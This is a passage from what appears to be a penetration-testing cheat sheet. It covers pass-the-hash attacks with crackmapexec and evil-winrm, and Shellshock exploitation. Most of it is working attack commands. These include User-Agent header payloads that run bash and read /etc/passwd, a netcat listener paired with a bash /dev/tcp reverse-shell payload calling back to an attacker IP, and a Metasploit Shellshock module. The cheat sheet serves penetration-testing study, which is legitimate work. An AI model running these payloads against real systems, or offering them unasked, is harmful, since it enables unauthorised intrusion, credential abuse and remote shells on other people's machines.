 > Via these commands if everything goes smoothly you'll have a successful pass-the-hash attack.

```Shell
crackmapexec smb <ip-address> -u Administrator -H "<NTLM-HASH>" -x "any-command"
```

> Pass-the-hash attack using `crackmapexec`.

```Shell
ruby evil-winrm.rb -i 10.0.0.20 -u user -H <NTLM-HASH>
```

> `evil-winrm.rb` tool can be used to perform the same function.

#### Linux Exploitation:

#### Shell Shock:

```Shell
nmap -sV <ip-address> --script=http-shellshock --sctipt-args "http-shellshock.uri=/gettime.cgi"
```

> A shell shock vulnerability script. you must have apache services

***TO EXPLOIT IT VIA BRUP SUITE WE HAVE TO PASS COMMANDS IN THE  USER AGENT HEADER AS SHOWN BELOW***

> First send it to the repeater and then change the header in the repeater tab. 

```HTTP
User Agent: () { :; }; echo; echo; /bin/bash -c '<command>'
User Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd' 
```

***FOLLOWING IS THE METHOD TO GAIN A REVERSE SHELL FROM BURP SUITE***

```Shell
nc -nvlp 1234
```

> First turn on the net cat on listening mod on port 1234.

```http
User Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<host-ip-addresss>/1234 0>&1'
User Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1'
```

> This header upon running will give a reverse shell on the system.

```msfconsole
use exploit/multi/http/apache_mod_cgi_bach_env_exec
show options
set RHOST <ip-address>
set TARGETURI /gettime.cgi
exploit
```

> Module for exploitation the shellshock vulnerability. 

#### WMAP
```shell
wmap_sites -h
```
> to see the options

